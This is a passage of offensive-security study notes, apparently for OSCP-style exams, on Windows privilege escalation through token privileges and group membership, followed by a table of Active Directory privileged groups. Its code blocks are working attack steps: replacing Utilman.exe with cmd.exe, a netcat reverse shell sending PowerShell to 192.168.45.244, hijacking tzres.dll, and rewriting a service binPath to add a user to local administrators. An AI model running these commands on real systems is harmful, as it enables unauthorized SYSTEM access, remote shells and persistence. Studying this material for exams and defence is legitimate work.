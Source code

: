 ##### SeRestorePrivilege
Using that we can replace any binary we want
```shell
# If we have RDP, then we can replace Utilman.exe and then press Win + U to trigger that binary during our RDP session 
cd C:\Windows\system32  
ren Utilman.exe Utilman.old  
ren cmd.exe Utilman.exe
```
##### SeManageVolumePrivilege
```Powershell
# [SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit) gives acces to complete C:\ drive

# Now we can try hijacking any DLL or any other vector of file replacement or missing dll
# METHOD 1
# [WerTrigger](https://github.com/sailay1996/WerTrigger) to get full privilege NT Authority System access 
# After running it won't return any output or anything so type command to get back stable interactive connection 
c:\xampp\nc.exe 192.168.45.244 9999 -e powershell.exe

# METHOD 2
# Replace the below dll with the malicious one
C:\Windows\System32\wbem\tzres.dll
# then call systeminfo to trigger it
systeminfo

```

##### SeMachineAccountPrivilege
Windows Privilege Escalation: sAMAccountName Spoofing specfici version of windows

#### Group Privileges
https://github.com/dollarboysushil/oscp-cpts-notes/tree/main/windows-privilege-escalation/group-privileges
##### Server operator group
```shell
accesschk.exe -cuwqv "molly.smith" * /accepteula
# we can change the binPath of any service
sc config VMTools binPath= "cmd /c net localgroup administrators user /add"

# we can make backup of SAM and SYSTEM too
```

| **Group**                        | **Scope & Type**                     | **Key Permissions / Rights**                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| -------------------------------- | ------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Enterprise Admins**            | Forest‑wide, Universal (root domain) | Full control over all domains, can modify forest & cross-domain settings ([Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory?utm_source=chatgpt.com "Active Directory Privileged Accounts and Groups Guide"), [SS64](https://ss64.com/nt/syntax-security_groups.html?utm_source=chatgpt.com "Windows Built-in Users, Default Groups and Special Identities - SS64")) |
| **Domain Admins**                | Domain-wide, Global                  | Local admin on all domain‑joined machines, full control on domain objects                                                                                                                                                                                                                                                                                                                                                                                                                       |
| **Administrators (Built-in)**    | Domain local                         | Full control on DCs and domain objects; can take ownership                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| **Schema Admins**                | Forest root, Universal               | Modify AD schema definition                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| **Account Operators**            | Domain local                         | Create/manage user & group accounts; network access; workstation joins                                                                                                                                                                                                                                                                                                                                                                                                                          |
| **Backup Operators**             | Domain local                         | Backup/restore files and directories on DCs; bypass traverse checking                                                                                                                                                                                                                                                                                                                                                                                                                           |
